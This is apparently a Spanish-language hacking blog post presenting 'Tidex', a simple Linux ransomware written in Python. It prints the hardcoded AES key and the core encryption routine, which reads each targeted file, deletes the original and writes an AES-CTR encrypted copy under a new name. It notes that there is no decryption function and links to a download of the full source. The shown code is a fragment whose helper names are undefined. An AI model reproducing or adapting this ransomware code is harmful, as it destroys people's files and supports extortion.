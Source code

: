 ```yaml
---
title: "Tidex Ransomware"
excerpt: "Ejemplo de Ransomware Tidex para Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex

Pequeño y simple Ransomware, solo funciona para cifrar archivos en la ruta del directorio Escritorio y subdirectorios.

&nbsp;

## Importante

Por el momento solo se puede ejecutar en máquinas Linux. Carece de función de descifrado.
La CLAVE es: **hkpykiiqftupr3okl04azj**

&nbsp;

Ejemplo de Código

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

### [Descargar aquí desde GitHub](https://github.com/aiskoadt/Tidex)

Gracias
~ aiskoa.